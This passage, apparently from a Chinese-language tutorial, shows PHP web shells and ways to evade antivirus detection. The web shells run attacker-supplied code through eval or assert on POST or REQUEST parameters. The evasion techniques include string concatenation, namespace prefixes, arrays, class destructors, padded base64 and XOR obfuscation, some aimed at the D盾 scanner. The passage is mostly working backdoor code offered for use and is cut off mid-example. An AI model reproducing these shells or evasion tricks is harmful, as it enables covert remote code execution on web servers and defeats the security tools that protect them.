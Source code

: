 ```php
//初代版本
<?php
$a = $_REQUEST['a'];
$b = null;
eval($b.$a);
?>
//不过已经不能免杀了，利用适当的变形即可免杀，如
<?php
$a = $_POST['a'];
$b = "\n";
eval($b.=$a);
?>
//其他方法大家尽情发挥如”\r\n\t”, 函数返回，类，等等
//除了连接符号 还有个命名空间的东西 \ 具体大家可以看看 php 手册
<?php
function dog($a){
    \assert($a);
}
dog($_POST[x]);
?>
```
## 2.5. 数组
把执行代码放入数组中执行绕过
```php
<?php
$a = substr_replace("assexx","rt",4);
$b=[''=>$a($_POST['q'])];
?>
//多维数组

<?php
$b = substr_replace("assexx","rt",4);
$a = array($arrayName = array('a' => $b($_POST['q'])));
?>
```
## 2.6. 类
说到类肯定要搭配上魔术方法比如 __destruct()，__construct()
```php
<?php 
class me
{
  public $a = '';
  function __destruct(){
    assert("$this->a");
  }
}
$b = new me;
$b->a = $_POST['x'];
?>
//用类把函数包裹,D 盾对类查杀较弱
```
## 2.7. 编码
用 php 的编码函数，或者用异或、简单的 base64_decode, 其中因为他的正则匹配可以加入一些下划线干扰杀软
```php
<?php
$a = base64_decode("YXNz+ZX____J____0");
$a($_POST[x]);
?>
//异或
<?php
$a= ("!"^"@").'ssert';
```